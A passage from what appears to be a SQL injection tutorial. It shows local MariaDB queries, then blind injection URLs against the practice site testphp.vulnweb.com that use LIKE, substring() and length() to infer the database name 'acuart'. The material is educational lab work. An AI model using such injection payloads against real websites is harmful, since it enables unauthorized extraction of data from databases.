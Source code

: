 ```
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d__k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```

**Name of database is "acuart" length of database is "6"**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and database() like "%art"
```

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and substring(database(),1,1)="a";
```



```
http://testphp.vulnweb.com/listproducts.php?cat=2 and length(database())="6"
```

![image-20211014094321910](images/image-20211014094321910.png)
